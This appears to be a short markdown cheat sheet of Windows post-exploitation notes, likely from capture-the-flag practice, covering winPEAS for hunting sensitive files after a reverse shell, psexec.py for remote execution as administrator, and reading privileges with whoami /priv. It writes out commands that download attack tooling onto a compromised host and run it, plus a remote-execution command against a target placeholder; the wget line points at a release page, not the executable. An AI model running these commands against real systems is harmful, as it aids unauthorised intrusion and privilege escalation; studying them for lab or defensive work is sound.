 
# winPEAS.exe <a name="wpeas"></a>

winPEAS.exe is an executable that, once we have a reverse shell, will display files with possible critical information in red.

Example:

1. First, download it using PowerShell:
````bash
wget https://github.com/carlospolop/PEASS-ng/releases/tag/20231002-59c6f6e6
````
2.  Switch to PowerShell in your terminal: 
````bash
powershell
````
3. Finally, execute winPEAS.exe:
````bash
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
````


# psexec.py <a name="pspy"></a>
**psexec.py** is a tool that allows you to remotely execute processes on other systems over a network.

````bash
python3 psexec.py administrator@{TARGET_IP}
````

# whoami
When you run `whoami /priv`, you will receive a list of the privileges assigned to your user account, along with their status (enabled or disabled). The output typically includes:

- **Privilege Name**: A brief description of each privilege.
- **State**: Indicates whether the privilege is enabled (Enabled) or disabled (Disabled).
### Example of Usage
```bash
whoami /priv
```
The output might look something like this:
```bash
PRIVILEGES INFORMATION
-----------------------
Privilege Name                    State
===========================================
SeShutdownPrivilege                Enabled
SeBackupPrivilege                  Enabled
SeRestorePrivilege                 Disabled
SeChangeNotifyPrivilege            Enabled
SeTakeOwnershipPrivilege           Enabled
```

